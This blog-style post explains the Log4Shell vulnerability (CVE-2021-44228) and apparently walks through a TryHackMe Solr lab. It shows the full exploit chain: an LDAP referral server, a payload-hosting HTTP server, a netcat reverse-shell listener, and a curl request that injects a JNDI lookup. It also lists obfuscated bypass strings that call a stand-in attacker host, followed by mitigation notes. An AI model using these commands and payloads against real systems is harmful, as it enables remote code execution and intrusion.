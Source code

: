 ```yaml
---
title: "CVE-2021-44228 Log4j Exploit - Log4Shell"
subtitle: "Exploiting Log4j vulnerability, bypasses and mitigation."
description: "Exploiting Log4j vulnerability, bypasses and mitigation."
excerpt: "Exploiting Log4j vulnerability, bypasses and mitigation."
header-img: /assets/img/log4shell/log4j.png
featured-image: /assets/img/log4shell/log4j.png
featured-image-alt: "CVE-2021-44228 Log4j Exploit - Log4Shell"
tags: [linux, red team, penetration testing, zeroday, blue team]
---
```


![Log4Shell](/assets/img/log4shell/log4j.png)

`Log4j` took the internet by storm. Any social media app that you open, people will be talking about `log4j` somewhere, somehow. Even the gaming community mentioning `Log4j`. As this attack was noted in the wild to be used against a Minecraft server in an RCE but the reason the Minecraft server was compromised also affects millions of other applications and servers because `Log4j` is used by so many. `Log4j` is an open source Java utility by Apache built into many applications that easily logs user input and performs network lookups within the `JNDI`, to obtain services from `LDAP`. `Log4j` captures a message as a URL, fetches the correct response and can execute code.

This vulnerability, also known as `Log4Shell` can be identified as `CVE-2021-44228`. By the weekend, it was widely known to be a huge concern due to its ease of attacks and the potential to compromise servers giving its attack surface is relatively ubiquitous and used across millions of applications. 

According to the CEO of Cloudflare, Matthew Prince, the exploit has been in the wild at least 9 days before publicly disclosed.

![Log4Shell](/assets/img/log4shell/ceo.png)

<br>

### Exploitation

"LDAP Referrer Server" is used to redirect the initial request of the victim to another location which in this case is our payload server.

```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.8.108.138:8000/#Exploit"
```

While our java payload will be serving on port 8000:

```
python3 -m http.server 8000
```

Listening on port 9999 on attacker machine:

```
nc -lvnp 9999
```

Executing the payload:

```
curl 'http://10.10.99.121:8983/solr/admin/cores?foo=$\{jndi:ldap://10.8.108.138:1389/Exploit\}'
```

<br>

![Log4Shell](/assets/img/log4shell/poc.png)

<br>

### Bypasses

Some bypasses from a few sources:

```
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}

${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}

${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}

${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}

${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}

${${::-j}ndi:rmi://attackerendpoint.com/}
```

<br>

### Mitigation

Cloudflare has since already been updated the managed ruleset with `Log4j` detection.

![Log4Shell](/assets/img/log4shell/cloudflarewaf.png)

`log4j` version `2.16.0` has been released and patches this vulnerability (`JNDI` is fully disabled, support for Message Lookups is removed, and the new DoS vulnerability `CVE-2021-45046` is not present anymore).

`log4j-jndi-be-gone`, a simple Java agent from nccgroup can also be used to disable `log4j JNDI` handler covering Java 6 through Java 17.

Github: [log4j-jndi-be-gone](https://github.com/nccgroup/log4j-jndi-be-gone)

<br>

### Learn more:

More stuff: [John Hammond's Youtube video walking through the Log4j exploit on a Minecraft server.](https://www.youtube.com/watch?v=7qoPDq41xhQ)

If you want to learn and practice more on `Log4j`, TryHackMe has a greate room created by John Hammond himself: [TryHackme - Solr: Exploiting Log4j](https://tryhackme.com/room/solar)